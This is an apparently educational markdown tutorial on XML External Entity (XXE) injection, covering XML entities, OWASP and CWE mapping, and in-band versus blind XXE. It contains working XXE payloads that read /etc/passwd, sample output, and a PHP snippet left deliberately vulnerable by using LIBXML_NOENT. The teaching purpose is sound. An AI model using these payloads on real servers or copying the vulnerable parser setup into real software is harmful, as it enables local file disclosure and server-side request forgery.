



> [!info]
> **Improper Restriction of XML External Entity Reference (XXE)**
>
> XML (Extensible Markup Language) supports a feature called **External Entities**, which allows an XML document to reference external resources during parsing.
>
> When an application processes untrusted XML input without properly restricting external entity resolution, an attacker may be able to manipulate the XML document and cause the server-side parser to access unintended resources.
>
> This vulnerability is commonly known as **XML External Entity Injection (XXE)** and can potentially lead to:
>
> - Reading local files
> - Server-Side Request Forgery (SSRF)
> - Access to internal services
> - Disclosure of sensitive information
> - Denial of Service in certain parser configurations
>
> The root cause is usually an insecure XML parser configuration that allows **external entity processing** when it is not required by the application.
>
> In security testing, the main objective is to determine whether the application accepts attacker-controlled XML and whether its parser resolves external entities.

> [!info] XXE Vulnerability
> ## What is XXE?
>
> **XXE (XML External Entity)** is a vulnerability that occurs when an application processes untrusted XML input and allows external entities to be resolved by the XML parser.
>
> In the **OWASP Top 10 2021**, XXE is associated with:
>
> ```text
> A05: Security Misconfiguration
> ```
>
> In MITRE CWE, it is classified as:
>
> ```text
> CWE-611: Improper Restriction of XML External Entity Reference
> ```
>
> Let's understand what XXE is and why it can become a security issue.
>
> ---
>
> ## What is XML?
>
> **XML (Extensible Markup Language)** is a widely used data format for representing and exchanging structured data.
>
> XML is commonly used by applications to transfer data between clients and servers, particularly in APIs, web services, and older SOAP-based applications.
>
> A simple XML document looks like this:
>
> ```xml
> <?xml version="1.0"?>
> <user>
>     <name>CNA</name>
>     <role>guest</role>
> </user>
> ```
>
> The application receives this XML and passes it to an XML parser, which interprets the structure and extracts the required data.
>
> ---
>
> ## XML and Web Applications
>
> Some applications use XML to exchange data between the browser and the server.
>
> For example:
>
> ```http
> POST /api/user HTTP/1.1
> Content-Type: application/xml
> ```
>
> ```xml
> <user>
>     <name>CNA</name>
> </user>
> ```
>
> The server receives the XML and processes it using an XML parser.
>
> > [!warning]
> > The XML parser becomes an important security boundary when an attacker can control the XML input.
>
> ---
>
> ## External Entities
>
> The XML specification includes a feature called **External Entities**.
>
> An external entity can reference data outside the XML document itself.
>
> For example:
>
> ```xml
> <!DOCTYPE example [
>     <!ENTITY data SYSTEM "file:///etc/passwd">
> ]>
> ```
>
> The entity can then be referenced inside the XML document:
>
> ```xml
> <example>
>     &data;
> </example>
> ```
>
> If the XML parser is configured to resolve external entities, it may attempt to access the referenced resource.
>
> ---
>
> ## Why is this Dangerous?
>
> When an application accepts attacker-controlled XML and the parser allows external entity resolution, an attacker may be able to manipulate the XML processing behavior.
>
> Depending on the parser configuration and application environment, this can potentially lead to:
>
> - Local file disclosure
> - Server-Side Request Forgery (SSRF)
> - Access to internal services
> - Disclosure of sensitive information
> - Denial of Service
>
> The vulnerability occurs because the application allows the attacker to influence how the XML parser resolves external entities.
>
> ---
>
> > [!danger]
> > **Important**
> >
> > XXE is not caused by XML itself.
> >
> > The problem is usually an **insecure XML parser configuration** that allows external entity processing when the application does not require it.
>
> ---
>
> ## XXE Concept
>
> The basic attack flow can be represented as:
>
>```mermaid
>flowchart TD
>    A[Attacker] -->|Malicious XML| B[Web Application]
>    B --> C[XML Parser]
>    C -->|Resolves External Entity| D{External Resource}
>
>    D -->|file://| E[Local File]
>    D -->|http:// / https://| F[Internal Service]
>    D -->|http:// / https://| G[External Server]
>```
>
>
> ## From Normal XML to XXE
>
> In a normal XML request, the application may receive something like:
>
> ```xml
> <?xml version="1.0"?>
> <user>
>     <name>CNA</name>
> </user>
> ```
>
> The XML parser processes the document and returns the requested values to the application.
>
> However, if the parser supports external entities, the XML document can be modified to define an external entity:
>
> ```xml
> <?xml version="1.0"?>
> <!DOCTYPE user [
>     <!ENTITY xxe SYSTEM "file:///etc/passwd">
> ]>
> <user>
>     <name>&xxe;</name>
> </user>
> ```
>
> The important difference is the addition of the `DOCTYPE` declaration and the external entity definition.
>
> The parser may resolve `&xxe;` and replace it with the referenced resource.
>
> ---
>
> > [!tip]
> > **Key Idea**
> >
> > The important question during an XXE assessment is:
> >
> > ```text
> > Can attacker-controlled XML cause the server-side XML parser
> > to resolve an external entity?
> > ```
>
> If the answer is yes, the application may be vulnerable to XXE.
>
> ---
>
> ## In the Previous Example
>
> We can modify the XML request by introducing a `DOCTYPE` declaration and an external entity.
>
> Normal XML:
>
> ```xml
> <user>
>     <name>CNA</name>
> </user>
> ```
>
> Modified XML:
>
> ```xml
> <!DOCTYPE user [
>     <!ENTITY xxe SYSTEM "file:///etc/passwd">
> ]>
> <user>
>     <name>&xxe;</name>
> </user>
> ```
>
> This modification changes the behavior of the XML parser and demonstrates the fundamental concept behind an **XML External Entity Injection** attack.


# XXE Vulnerability

> [!info]
> ## What is XXE?
>
> **XXE (XML External Entity)** is a vulnerability that occurs when an application processes untrusted XML input and allows the XML parser to resolve external entities.
>
> In the **OWASP Top 10 2021**, XXE-related weaknesses are covered under:
>
> ```text
> A05: Security Misconfiguration
> ```
>
> In MITRE CWE, it is classified as:
>
> ```text
> CWE-611: Improper Restriction of XML External Entity Reference
> ```
>
> Let's see how XXE works in practice.

---

## XML

**XML (Extensible Markup Language)** is a widely used data format for storing and exchanging structured information.

Certain applications use XML to transfer data between the client and server, especially in APIs, web services, and SOAP-based applications.

A simple XML document might look like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<owasp>
    <username>adolfcna</username>
    <email>example@gmail.com</email>
    <instagram>adolfcna</instagram>
</owasp>
```

The application receives this XML and passes it to an XML parser for processing.

> [!warning]
> XML itself is not the vulnerability. The security issue appears when an application allows an attacker to control XML input and the XML parser is configured to process external entities.

---

## XML External Entities

The XML specification includes several features that can introduce security risks.

One of these features is **External Entities**.

An XML document can declare an entity and later reference that entity inside the document.

For example:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY bar "@changed">
]>

<owasp>
    <username>adolfcna</username>
    <email>example@gmail.com</email>
    <instagram>&bar;</instagram>
</owasp>
```

Here, the following entity is declared:

```xml
<!ENTITY bar "@changed">
```

The entity is then referenced using:

```xml
&bar;
```

The XML parser replaces the entity reference with its defined value.

The application therefore returns:

```text
adolfcna
example@gmail.com
@changed
```

This demonstrates how XML entities work.

---

## PHP Application

Consider the following PHP application:

```php
<?php

// Takes raw data from the request
$myXMLData = file_get_contents('php://input');

// Converts it into a PHP object
$data = simplexml_load_string(
    $myXMLData,
    null,
    LIBXML_NOENT
) or die("Error: Cannot create object");

// var_dump($data);

echo $data->username, "\n";
echo $data->email, "\n";
echo $data->instagram, "\n";
```

The application:

1. Reads raw XML from the HTTP request.
2. Parses the XML using `simplexml_load_string()`.
3. Uses `LIBXML_NOENT`.
4. Prints values from the parsed XML object.

The important part is:

```php
LIBXML_NOENT
```

This option enables entity substitution during XML parsing.

> [!danger]
> If attacker-controlled XML is processed with external entity resolution enabled, an attacker may be able to make the server access unintended resources.

---

## Exploiting External Entities

Now we can take advantage of an entity's **SYSTEM identifier**.

The `SYSTEM` keyword allows an entity to reference an external resource.

For example:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY bar SYSTEM "/etc/passwd">
]>

<owasp>
    <username>adolfcna</username>
    <email>example@gmail.com</email>
    <instagram>&bar;</instagram>
</owasp>
```

The important part is:

```xml
<!ENTITY bar SYSTEM "/etc/passwd">
```

Instead of defining `bar` as a normal string:

```xml
<!ENTITY bar "@changed">
```

we define it as an external resource:

```xml
<!ENTITY bar SYSTEM "/etc/passwd">
```

The entity is then referenced here:

```xml
<instagram>&bar;</instagram>
```

If the XML parser resolves the external entity, it attempts to read the specified resource.

---

## Result

The application may return the contents of `/etc/passwd`:

```text
root:x:0:0:System Administrator:/var/root:/bin/sh
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
```

This demonstrates **Local File Disclosure through XXE**.

> [!danger]
> The impact depends on the XML parser, parser configuration, operating system, application privileges, and the resources accessible by the server process.

---

## Flow



## Types of XXE

There are two commonly discussed forms of XXE:

### Normal / In-band XXE

In a normal XXE attack, the application returns the result of the external entity resolution directly in its response.



Detection is generally easier because the extracted data is visible in the application's response.

---

### Blind XXE

In **Blind XXE**, the application does not return the result of the external entity resolution in the HTTP response.

The attacker may therefore need an **Out-of-Band (OOB)** channel to detect the vulnerability or retrieve data.



> [!tip]
> The key difference:
> **Normal XXE:** The result appears directly in the application's response.
> **Blind XXE:** The result is not directly returned, so an external interaction channel may be required.
## Impact

Depending on the environment, XXE can potentially result in:

- Local file disclosure
- Server-Side Request Forgery (SSRF)
- Access to internal services
- Disclosure of sensitive information
- Cloud metadata access in vulnerable environments
- Denial of Service

---

> [!success]
> ## Key Takeaways
>
> - XML supports entities as part of its specification.
> - External entities can reference resources outside the XML document.
> - Unsafe XML parser configurations can allow attackers to abuse this functionality.
> - `LIBXML_NOENT` enables entity substitution in the PHP example.
> - Normal XXE may expose data directly through the HTTP response.
> - Blind XXE may require an Out-of-Band interaction channel.
> - XXE is mapped to **CWE-611: Improper Restriction of XML External Entity Reference**.


